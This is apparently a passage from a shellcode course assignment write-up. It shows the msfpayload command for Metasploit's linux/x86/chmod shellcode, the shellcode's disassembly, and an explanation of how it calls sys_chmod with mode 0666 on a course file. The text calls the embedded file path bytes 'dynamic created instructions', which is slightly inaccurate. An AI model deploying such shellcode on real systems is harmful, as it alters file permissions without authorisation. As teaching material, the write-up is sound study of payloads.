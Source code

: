 With msfpayload linux/x86/chmod FILE=/home/polslinux/assignment-5/slae-id-526.txt MODE=0666 R | ndisasm -u -  it is possible to disassemble the shellcode:

```nasm    
    00000000  99                cdq
    00000001  6A0F              push byte +0xf
    00000003  58                pop eax
    00000004  52                push edx
    00000005  E82D000000        call dword 0x37
    0000000A  2F                das
    0000000B  686F6D652F        push dword 0x2f656d6f
    00000010  706F              jo 0x81
    00000012  6C                insb
    00000013  736C              jnc 0x81
    00000015  696E75782F6173    imul ebp,[esi+0x75],dword 0x73612f78
    0000001C  7369              jnc 0x87
    0000001E  676E              a16 outsb
    00000020  6D                insd
    00000021  656E              gs outsb
    00000023  742D              jz 0x52
    00000025  352F736C61        xor eax,0x616c732f
    0000002A  652D69642D35      gs sub eax,0x352d6469
    00000030  3236              xor dh,[esi]
    00000032  2E7478            cs jz 0xad
    00000035  7400              jz 0x37
    00000037  5B                pop ebx
    00000038  68B6010000        push dword 0x1b6
    0000003D  59                pop ecx
    0000003E  CD80              int 0x80
    00000040  6A01              push byte +0x1
    00000042  58                pop eax
    00000043  CD80              int 0x80
```

Now i'm going to explain the execution flow of the above shellcode.

	
  1. cdq  is used to zeroing out the edx  register (later we'll know why);

	
  2. The byte 0x0f (15 in decimal format) is pushed onto the stack and then is popped inside eax. This byte identifies the syscall sys_chmod(const char *filename [ebx], mode_t mode [ecx])

```
    $ grep 15 /usr/src/linux/arch/x86/syscalls/syscall_32.tbl 
    15 i386 chmod sys_chmod
```

  3. edx  is pushed onto the stack. This is needed because the file name **must be** null-terminated. A non-null terminated file name will lead the program to crash (segfault);

	
  4. From 0000000A to 00000035 there are some dynamic created instructions (due to the use of msfpayload) which set up the stack so that the chose string is available without any other pushing;

	
  5. The address of the file path is popped inside ebx , the mode 0666 (which is 0x1b6  in hex) is pushed onto the stack and then popped inside ecx. After that the syscall is executed.
